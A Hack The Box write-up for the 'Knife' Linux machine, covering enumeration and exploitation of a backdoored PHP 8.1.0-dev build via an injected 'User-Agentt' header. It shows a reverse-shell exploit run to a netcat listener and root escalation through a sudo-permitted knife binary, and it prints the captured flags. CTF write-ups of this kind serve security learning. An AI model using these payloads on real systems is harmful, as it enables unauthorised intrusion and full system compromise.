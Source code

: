 ```yaml
---
layout: post
title: HTB Knife WriteUp
date: 2024-05-25
categories:
  - HackTheBox
  - HackTheBox-Linux
tags:
  - HackTheBox
  - CTF
  - Linux
  - PHP-8.1.0-dev
  - User-Agentt-Pollution
  - OSCP
  - Knife-Binary
media_subpath: /assets/img/Knife/
---
```

![Desktop View](Knife.png){: w="800"  h="400" }

# Knife Skills

>Knife is an easy Linux machine where we will use the following skills:

-  **Port Discovery**
-  **Web Tech's Enumeration**
-  **Abusing PHP BackDoored Version**
-  **User-Agent Modification**
-  **Abusing Knife Binary - Sudoers**

---

## IP Address Enumeration

Using the usual Nmap scan I've discovered port **22** & port **80**:

```perl
nmap -p- --open -sS --min-rate 10000 -vvv -n -Pn 10.10.10.242
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-25 01:25 CEST
Initiating SYN Stealth Scan at 01:25
Scanning 10.10.10.242 [65535 ports]
Discovered open port 80/tcp on 10.10.10.242
Discovered open port 22/tcp on 10.10.10.242
```

Then i launched a basic group of scripts to seek more info from the open ports:

```perl
nmap -sCV -p22,80 10.10.10.242 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-25 01:27 CEST
Nmap scan report for 10.10.10.242
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Beside the **Apache** version and the **SSH** version nothing useful was reported.

---
## Web Enumeration

Before getting into the **website** i like to execute **whatweb** to get more specific info about the technologies running in the background of the web.

```python
whatweb 10.10.10.242
```

I got the next response:

```perl
http://10.10.10.242 [200 OK] Apache[2.4.41],
Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)],
IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea],
X-Powered-By[PHP/8.1.0-dev]
```

_At first when i was doing this machine, i didn't notice that the **PHP 8.1.0-dev** version was the key of this machine, so i started looking inside the website_ 

Once we enter http://10.10.10.242/ we are in front of the following website:

![Desktop View](knifeMainPage.png)

Unfortunately nothing in the website is functional, also nothing found in the code, and there is no **robots.txt**.

So i started **Fuzzing** directories and PHP files but nothing was found, so my last hope was that there was a available subdomain but for my surprise i got no response.

At this point i was a bit confused, i was asking my self  '___What have i missed in this easy box?___', so i check again the **Nmap** and **WhatWeb** reports and i been struck by the PHP version, it was the version  ***8.1.0***, usually this version is not vulnerable, also it looks quite updated, latest version is ***8.3.7***, so i missed it at first but this is a ***8.1.0-dev*** version,

With a search in Google i found a **exploit** that allow us to get RCE.

-  **Exploit**: [https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py)

---
## Abusing PHP 8.1.0-dev

Taking a look at the code of the exploit, it seems that we can inject PHP code on a modified `User-Agent` named `User-Agentt` and also a modified `system` parameter named `zerodiumsystem`, so the final payload looks like this:

```bash
"User-Agentt": "zerodiumsystem('" + payload + "');"
```

After understanding the script, it's time to put it in practice,  the script asks for the next arguments:

-  **Target URL**
-  **Local IP**
-  **Local Port**

So, the final command looks like this:

```python
python3 revshell_php_8.1.0-dev.py http://10.10.10.242/ 10.10.16.5 443
```

Before launching the script, we have to set a listener in the specified port.

```bash
nc -nlvp 443
```

After launching the script, we should get a shell at the listener, and like i said, i received a shell as the user James.

![Desktop View](JamesShell.png)

---
## Shell as Root

### TTY Treatment 

Once we get the reverse shell, let's find a way to scale privileges, but before, we have to get a fully interactive shell, there are multiple ways but i like to do it this way: 

```bash
script /dev/null -c bash
```

Then press *Ctrl+Z* to get the process in background.

Now that you are in your machine execute the next command:

```bash
stty raw -echo;fg
```

Now write `reset xterm` and you should have a better looking shell but you still have to execute a few commands:

```bash
export TERM=xterm
export SHELL=bash
stty rows 45 columns 184
```

Make a `stty size` in your own shell to know the rows and columns.

---
### Abusing Knife Binary - Sudoers

We are logged in as the user **`James`**, checking his home folder, we can see now the user flag:

```bash
james@knife:~$ cat user.txt 
7b1c2140a9c942dbd9a0a9a8bf93c823
james@knife:~$ 
```


At first i checked the Kernel version:

```bash
james@knife:/$ uname -a
Linux knife 5.4.0-80-generic #90-Ubuntu SMP Fri Jul 9 22:49:44 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
james@knife:/$
```

But it looks quite updated, also checked if we are in any unusual groups:

```bash
james@knife:/$ id
uid=1000(james) gid=1000(james) groups=1000(james)
james@knife:/$ 
```

Unfortunately we are not in any group.

Checking if there is any binary configured in the sudores file, i found the following content:

```bash
james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

We can execute `/usr/bin/knife` as the user `root`, checking if the binary is covered by [GTFOBins](https://gtfobins.github.io/gtfobins/knife/), i found that `knife` is able to run **`Ruby`** code, so we can spawn a shell with the following command:

```bash
sudo /usr/bin/knife exec -E 'exec "/bin/bash"'
```

After 2 seconds we will get a shell as **`root`**, so now we can read the `root.txt` inside `/root`:

```bash
root@knife:~# cat root.txt 
54af38f64ed9c194f2f3d061ab6013b8
root@knife:~# 
```

---
## Final Thoughts

The Knife Box it's a pretty simple CTF, good to be your first machine and learn to still checking versions of every Tech's discovered and not ignore them like i made, beside that you won't learn nothing new.

![Desktop View](KnifePwn.png)

---
***Thanks for reading, i'll appreciate that you take a look to my other posts  :)***

